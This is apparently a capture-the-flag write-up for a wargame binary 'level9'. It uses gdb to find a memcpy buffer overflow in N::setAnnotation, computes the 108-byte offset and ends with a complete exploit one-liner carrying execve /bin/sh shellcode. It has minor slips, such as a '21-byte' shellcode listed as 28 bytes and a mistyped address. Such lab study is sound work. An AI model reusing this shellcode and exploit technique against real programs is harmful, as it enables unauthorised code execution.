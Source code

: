 We started by running the executable and found that it currently does nothing significant.
Analyzing it with `gdb`, we identified five interesting functions:
```
...
N::N(int)
N::setAnnotation(char*)
N::operator+(N&)
N::operator-(N&)
main
...
```
The main function is written in C/C++, and there are no direct calls to `/bin/sh`, indicating that we will need to use shellcode to exploit this program.

The `setAnnotation()` function uses `memcpy()` on `argv[1]`, making it vulnerable to a buffer overflow. We need to determine the offset at which the buffer overflows.

We determine the offset with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441       1094083649
(gdb)
```
The offset of `eax` start at 108.

We selected a 21-byte shellcode from: https://shell-storm.org/shellcode/files/shellcode-752.html

To exploit the buffer overflow, we must find the start address of our buffer and replace the value of `esp+0x10 `with it, ensuring that the call to `edx` will execute our shellcode.
```
(gdb) b *main+136                                    // right after the setAnnotation() call
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x41414141
```

The value of `[esp+0x10]` will be replaced with `0x804a00c`.
Because we need to dereference again, this address will points to the beginning of our shellcode : `0x804a00x + 4 = 0x804a010`.

Our payload structure is:
-   Shell Address: 4 bytes
-   Shellcode: 28 bytes
-   Padding: 76 bytes
-   Buffer Address: 4 bytes

Final exploit payload::
```
 ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
```

